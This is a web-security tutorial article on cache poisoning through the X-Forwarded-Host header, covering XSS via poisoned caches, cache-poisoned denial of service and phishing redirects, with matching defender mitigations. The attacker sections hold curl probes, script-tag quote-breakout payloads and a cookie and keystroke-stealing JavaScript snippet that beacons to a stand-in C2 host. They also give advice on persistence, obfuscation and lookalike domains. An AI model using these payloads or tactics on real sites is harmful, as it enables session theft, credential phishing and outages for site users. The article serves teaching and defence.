



Cache Poisoning: The Silent Web Attack You Need to Know About
Cache poisoning occurs when a cache designed to improve performance is manipulated to store malicious content. This article breaks down XSS via cache poison, Cache-Poisoned DoS, and open redirect amplification — from both attacker and defender perspectives.
#web-security#offensive-security#http
In this section, we will focus on cache poisoning. Cache poisoning occurs when a cache, which is intended to improve performance and conserve resources, is manipulated to store malicious content. In the following examples we will describe how cache poisoning is abused from an attacker's perspective, followed by corresponding mitigation strategies. For the test we will be using the X-Forwarded-Host header.
⚠
Warning
The following material is intended for educational and defensive security research purposes only. It describes techniques observed in real-world attacks to help developers, defenders, and security practitioners understand and mitigate cache poisoning vulnerabilities. No authorization or encouragement for illegal activity is implied.
Preparation for the Attack — Attacker's Perspective
First we must confirm whether the site blindly trusts X-Forwarded-Host.
If the fake domain appears in dynamic parts of the code (scripts, src, meta, images, etc.) — vulnerability confirmed.

Confirmation: evil.com reflected in dynamic parts of the poisoned response
We still have 2 main confirmations to do:
The page is cacheable. This means the site has a shared cache in front (Cloudflare, nginx, etc.) that is allowed to store and reuse responses for multiple users. To confirm this, check the response headers:
Cache-Control: public, max-age=300 → shared cache can store it for 5 minutes. Your poison will last up to 5 minutes max.
Cache-Control: private, no-cache, or no-store → not cacheable by shared caches → poisoning impossible.
BASH
curl -I "https://target-site.com/?cb=test123" # First: probably MISS
curl -I "https://target-site.com/?cb=test123" # Second: look for HIT or increasing Age
The homepage is unlikely to have public cache control, but it's still worth checking — high-traffic sites sometimes do cache homepages publicly. If not, spider the site by hitting individual assets. Use DevTools to find specific asset URLs, then confirm which parts can be poisoned:
Public cache control is designed for saving resources on non-critical parts of the site, so almost always there is a part that can be poisoned.
Cache does NOT key on X-Forwarded-Host. As explained earlier, Vary changes the regular caching key. If X-Forwarded-Host is included in Vary, the cache will treat requests with different values as separate keys — your poison stays isolated to your request and normal users get the clean version. To confirm, simply check the response headers:
BASH
curl -I "https://target-site.com"
Now it's time to actually poison the cache.
Preparation for the Attack — Defender's Perspective
Do not trust X-Forwarded-Host by default. Treat it as user input. Only accept it from trusted internal proxies and validate it strictly. Otherwise ignore or strip it.
Use a strict host allowlist. Validate Host, X-Forwarded-Host, and similar headers against a fixed list of allowed domains. Reject or normalize anything else.
Never build absolute URLs from request headers. Do not generate links, assets, redirects, or meta tags using Host or X-Forwarded-Host. Use a server-configured canonical domain instead.
Normalize headers at the edge. Strip X-Forwarded-Host at the CDN or reverse proxy. Re-add it only from trusted infrastructure so clients can't inject it.
Align cache keys with application logic. If a header affects the response, it must be included in Vary. If it should not affect content, it must not be used by the application at all.
Avoid public caching of dynamic HTML. Use Cache-Control: private or no-store for HTML pages. Reserve public caching for static assets only.
Prevent caching of error responses. Ensure 3xx, 4xx, and 5xx responses are not cached by shared caches.
Enforce canonical domains safely. Redirect to the canonical host using server configuration, not unvalidated request headers.
Monitor and test. Watch for cache anomalies and regularly test host header and cache behavior the same way an attacker would.
There are multiple ways of taking advantage of this situation. We will cover the mainstream ways to do so.
If we oversimplify, an XSS attack occurs when a threat actor runs malicious JavaScript code in a user's browser under the site's context. Those scripts can steal data, redirect the user to a malicious site, and more. Let's see how it can be executed in our context.
Control our own domain/subdomain.
We need to buy or register a domain like attacker.com, or use a free subdomain from a provider, then point that domain to our server with our malicious code ready. The reason is simple — just look at this snippet:
This was supposed to be a simple image — the src is there to point to it. But since the cache is poisoned, it will point to our server instead.
Craft a malicious JS payload.
For this example we will use a simple keylogger that steals cookies and forms then beacons to our C2 (Command and Control). This code should be hosted at the exact path we pointed our poison to.
JAVASCRIPT
// Steal cookies and send to attacker
fetch('https://your-c2.com/log?data=' + encodeURIComponent(document.cookie));
// Or full keylogger
document.addEventListener('keydown', e => {
fetch('https://your-c2.com/key?k=' + e.key);
});
// Bonus: Steal localStorage, hijack forms, mine crypto silently
alert('Pwned by cache poison!'); // For testing visibility
Nothing stops us from making this script stealthier and more impactful. Our infrastructure is ready — time to execute the attack.
Execute the plan and poison the cache.
Send the poisoned request — the example showcases curl but other tools work too:
Console: if your JS has console.log or alert, it pops. Network tab shows beacons to your C2 with stolen data.
Multi-user test: spin up VMs or proxies — each "victim" gets the same poisoned cache hit and XSS executes client-side.
Bypass CSP.
Content Security Policy (CSP) often blocks external scripts via script-src 'self'. This makes XSS cache poisoning practically impossible — unless developers commit one crucial mistake. Sometimes dynamic links are served like this:
HTML
<link rel="preconnect" href="https://[X-Forwarded-Host]/...">
<img src="https://[X-Forwarded-Host]/logo.png" alt="...">
<script src="https://[X-Forwarded-Host]/static/js/main.js"></script>
<a href="https://[X-Forwarded-Host]/login">Login</a>
<div title="[X-Forwarded-Host] is the best">
To fight this we inject an inline script directly into the cached HTML. Because the [X-Forwarded-Host] value lands inside quotes (""), we can close them early and inject our payload — the classic quote breakout:

Quote breakout: the injected payload splits the script tag, causing the browser to parse two separate tags
The browser parses this as two separate script tags. The inline script runs instantly. CSP often allows unsafe-inline, or doesn't block it on older sites. More importantly, because we poisoned the cache, CSP sees our script as trusted since it's being served directly from the HTML body of the trusted origin — our target.com.
There are still some interesting payloads worth noting:
If they HTML-encode the quotes (rare), try the URL-encoded version:
If nothing works, try JSON injection (if host is used in a JSON response):
TEXT
X-Forwarded-Host: {"evil":true}//example.com
This breaks the JSON structure. Angular/React sometimes treats it as a JS expression, which allows arbitrary code execution.
⚠
Warning
In practice, unless the JSON is eval'd unsafely (which is itself another vulnerability), the JSON injection method won't work. Don't count on it.
Finally, confirm whether the bypass is possible by running these tests:
BASH
# Test 1 - basic breakout
curl -H "X-Forwarded-Host: x.com\"><script>alert(1)</script>" "https://vuln.com/?cb=1337"
# Test 2 - encoded version
curl -H "X-Forwarded-Host: x.com%22%3e%3cscript%3ealert(1)%3c/script%3e" "https://vuln.com/?cb=1337"
# Test 3 - with a dummy param to avoid trailing garbage
curl -H "X-Forwarded-Host: x.com/anything\"><script>alert(1)</script>" "https://vuln.com/?cb=1337"
If any of these work, the CSP bypass is possible and it's time to inject the actual payload.
Mistakes to avoid.
Forced Prefix or Suffix Handling. Some implementations prepend or append fixed strings to user-controlled host values, such as adding https:// or a trailing /. For example:
The browser fails to execute the injected script due to the malformed URL. Common bypass techniques: start the payload with // to neutralize the enforced protocol, or absorb the appended suffix using a dummy path segment.
Trailing Path Appended by the Application. Some apps construct script URLs dynamically, e.g. "https://" + host + "/static/js/main.js". An injected value like example.com"><script>alert(1)</script> becomes:
The trailing path breaks the injected tag, causing the browser to ignore it. Mitigations: add a fake path segment to absorb the suffix, or use comment/tag-balancing techniques to preserve valid HTML.
Input Sanitization or Truncation. Some applications sanitize input by escaping or removing quotes, replacing < and > with HTML entities, or truncating overly long values. These defenses often prevent direct tag injection. Bypass strategies: test URL-encoded characters (e.g., %22, %3C) or use shorter/alternative payload structures.
Host Validation or Normalization. Some systems restrict allowed domains, normalize input, or strip special characters. As a result, malicious input may be rejected outright or transformed into a non-executable string.
Non-Injectable Reflection Context. If the reflected value appears inside a text node, JSON structure, or an attribute without quotes, breaking out into executable HTML may not be possible.
Maximize the attack's capabilities.
Mass Scale. The more popular the poisoned page, the more victims are lured. Cache-Control also tells you how big your attack window is. For example: max-age=86400 (24 hours) means your poison can live for a full day unless the cache is evicted early. No need to re-poison constantly.
Chain with SSRF/redirects. If the reflection lets you control full URLs (not just the host), abuse it deeper. Point resources to internal IPs (127.0.0.1, 169.254.169.254 for cloud metadata). Victims' browsers fetch those, exfiltrating internal data (AWS keys, DB credentials) to your server via error logs. Classic client-side SSRF. Or force open redirects by reflecting into <meta refresh> or location.href — the poisoned page bounces all visitors to your phishing site for mass credential harvesting.
Persistence. Cache will eventually expire, but we can't allow that. A script/cronjob that re-sends the poison request every few minutes refreshes the cache indefinitely. Advanced technique: poison ETags or Last-Modified headers too — the victim's browser cache holds the poison forever (even after the CDN clears). Eternal XSS until the user manually clears cache.
Detection evasion. Ways to extend your poison's lifespan: register lookalike domains (e.g., secure-vulnsite.com) to delay suspicion. Obfuscate your JS: minify, encrypt strings, use eval(fromCharCode), no obvious alerts. Make it silent — only exfiltrate data, no popups or defacement.
XSS Cache Poisoning — Defender's Perspective
Never reflect request headers into HTML. Not in src, href, title, meta tags, JSON — anywhere. Headers are transport metadata, not template variables. If a header reaches HTML, someone screwed up.
Use a fixed, server-side canonical origin. All absolute URLs must come from configuration, not runtime input. If the app ever does "https://" + something from the request, that's a red flag waving a flamethrower.
Context-aware output encoding, always. HTML-encode for text nodes, attribute-encode for attributes, JS-encode for JS, JSON-encode for JSON. One-size-fits-all escaping is how quote breakouts happen.
Eliminate unsafe-inline in CSP. Inline scripts turn quote injection into instant code execution. Use nonces or hashes only. Old sites with unsafe-inline are basically asking to be haunted.
Disallow dynamic script origins entirely.script-src should be 'self' plus exact allowlisted domains. No wildcards, no runtime-generated hosts, no "but it's flexible".
Reject malformed host values early. If a value contains quotes, angle brackets, spaces, or encoded equivalents, drop the request. Hosts are domains, not creative writing exercises.
Lock down HTML templating logic. Templates should not concatenate strings to build tags. Use framework helpers that auto-escape and enforce context safety.
Separate data and markup strictly. JSON responses must never be eval'd or treated as executable code. If frontend logic executes server responses, the problem predates cache poisoning.
Set defensive browser headers.
X-Content-Type-Options: nosniff
Referrer-Policy: strict-origin-when-cross-origin
Cross-Origin-Opener-Policy and Cross-Origin-Embedder-Policy — these won't fix the bug, but they reduce blast radius.
Monitor for external asset loads. Alert when pages suddenly load scripts, images, or fonts from new domains. That's usually not a feature launch.
Actively test your own site like an attacker. Inject quotes, encoded payloads, broken hosts, weird headers. If the HTML breaks, attackers already found it.
Option 2: Cache Poisoned DoS (CPDoS) — Attacker's Perspective
A Cache-Poisoned Denial-of-Service (CPDoS) is achieved when an attacker caches a malicious or malformed response that causes the legitimate page content to become inaccessible. Once stored in the cache, the poisoned response is served to all users attempting to access the affected resource — effectively resulting in a denial of service.
Find a Poison Value That Triggers Backend Errors.
Not every redirect will work for CPDoS. First, we must find a fake host that will make the origin freak out. Common triggers:
Invalid or disallowed host: If the backend has a whitelist of allowed hosts (via server config or WAF), set X-Forwarded-Host to something outside it. Result: 403 Forbidden or 400 Bad Request.
Oversized host: Use a very long string as the fake host (e.g., "a" repeated 10,000 times). If the backend has header size limits tighter than the cache's, the cache accepts it and the origin rejects with 413 Payload Too Large.
Meta characters or malformed host: Inject malformed host names with weird control chars (\r\n) or invalid characters if the backend parses strictly. Could trigger 400 or internal errors.
Host pointing to non-existent resources: If the backend uses the host to fetch internal content (e.g., redirects or proxying), a bogus one might cause 502 Bad Gateway or timeouts.
Or look at the body for generic error pages like "Bad Request" or "Access Denied". If any error appears that wouldn't have been there without your manipulated request — first green flag for a potential CPDoS attack.
Confirm the Error Gets Cached.
We confirmed the error occurs, but we haven't confirmed it's cached. We don't assume — we check. Send a normal request now:
Compare: If post_poison.txt also contains the error, then the poison will work for everyone.
Bonus: Use a cache-buster param if needed (e.g., ?cb=ignoreme), but only if the cache keys ignore it. Watch the Age header increase on repeats to confirm hits.
However, the chance of failure here is high since most setups DON'T cache non-200 responses. To work around this, spider the site to find an endpoint that WILL cache the poison.

CPDoS flow: poisoned error response gets cached and served to all subsequent users
Execute the DoS Poison.
After confirming that poisoning is possible, it's time to unleash the attack.
Send the poisoned request to the target endpoint. Example for an oversized host attack:
Repeat if max-age is short — automate with a loop or script to re-poison every few minutes.
For maximum impact, target high-traffic pages.
Legitimate users will receive errors; their browsers will fail to load scripts, CSS, images, or even the full page. This can severely damage the organization under attack.
Edge Cases — Increase Severity.
Vary bypass: If Vary includes other headers, spoof them to match normal requests.
Multi-layer caches: Poison CDNs first, then origins if possible.
Defenses to watch: WAFs might block weird headers — test stealthily. If hosts are normalized, the poison will be useless.
Cache Poisoned DoS (CPDoS) — Defender's Perspective
Do not trust client-controlled headers. Ignore or strictly validate X-Forwarded-Host, X-Forwarded-Proto, Host, etc. Only accept values from trusted reverse proxies.
Normalize cache keys. Ensure caches vary only on intended headers. Do not let arbitrary headers influence cache keys unless absolutely required.
Set proper Vary headers. Explicitly define which headers affect responses. Missing or overly broad Vary headers are cache poisoning bait.
Separate dynamic and static content. Do not cache responses that include redirects, user input, or dynamically generated URLs.
Harden redirect logic. Never build redirect targets directly from headers or user input. Use allowlists for domains and schemes.
Use strict proxy configuration. Reverse proxies should overwrite forwarding headers instead of passing client-supplied ones upstream.
Disable caching on sensitive responses. Apply Cache-Control: no-store or private for redirects, auth flows, and error pages.
Monitor cache behavior. Log cache hits involving redirects or unusual headers. Poisoning often leaves fingerprints before damage occurs.
Option 3: Open Redirect / Phishing Boost by Cache Poisoning — Attacker's Perspective
If you're familiar with phishing, understanding this attack is not difficult. In this case, a poisoned cache causes the victim's browser to redirect to a resource controlled by the attacker. This can result in users willingly submitting credentials through social engineering, or unintentionally leaking session tokens or cookies.
For example:
A user clicks an image on instagram.com.
Instead of being redirected to a legitimate resource owned by Instagram, the user is redirected via a previously poisoned cache to instagrarn.com (intentional typosquatting).
Because the redirect originates from a trusted domain, the user believes the flow is legitimate and enters login credentials, which are sent directly to the attacker.
Alternatively, sensitive data can be leaked through the Referer header — for example, the attacker may observe Referer: https://instagram.com/account?session=ABC123, allowing them to hijack the user's session while it remains valid.
To perform this kind of attack, the following steps must be satisfied.
Prepare your Endpoint.
This step is practically the same as in the XSS cache poisoning section. In order to succeed you need to understand your position:
What do you have in hand: How good are your skills and are they enough for your plans? Do you own or rent proper infrastructure (domain/subdomain, VPS, etc.)?
What will bypass the target's security: What is theoretically possible given the layers of security the target has?
What is your end-goal: Depending on your goal, your actions to achieve it will be different.
Identify a vulnerable open redirect endpoint.
Spider the site to find URLs that perform redirects based on parameters (e.g., /redirect?url=..., /go?to=..., /link?dest=...) or reflect unkeyed headers like X-Forwarded-Host in Location headers or meta refreshes. Prioritize static-like assets (images, trackers, ad links) as they're often publicly cached.
After verifying that the cache poison is successful (subsequent clean requests receive a cache HIT and are redirected to your controlled test domain), ensure persistence by automating re-poisoning requests if the max-age is limited — for example, via a scheduled script:
ImportantCache buster handling: If the endpoint ignores cache-buster params (?cb=xyz) in the key, your poison spreads to all variations of that path — massive amplification.
Browser caching bonus: If the response lacks no-cache headers, victims' local browsers also cache the poison — it persists even after the CDN evicts it.
Open Redirect / Phishing Boost by Cache Poisoning — Defender's Perspective
Threat model. Treat all client-supplied headers as untrusted by default.
Trust boundaries.X-Forwarded-* headers must only be set and overwritten by trusted proxies — never accepted from users.
Cache abuse awareness. Attacks target shared caches, turning your own infrastructure into the delivery mechanism.
Cache key control. Any header that affects the response must be part of the cache key or ignored completely.
Redirect hardening. Avoid caching redirects or strictly validate destination hosts.
Cache control. Use Cache-Control: no-store for authentication flows, redirects, and user-specific content.
Proxy configuration. Proxies should sanitize, not forward, client-controlled headers.
Monitoring. Alert on cached responses pointing to unexpected or external domains.
Defensive mindset. Cache poisoning is silent and scalable. Assume it will be attempted, not avoided.
💡
Tip — Chain with other vulnerabilities
If there's also param reflection (like ?next=), combine it for an open redirect + cache poison chain.
Or poison error pages by forcing a 404 with a bad path and reflecting the host there.
⚠
Warning
Only test against systems you own or have explicit written permission to test.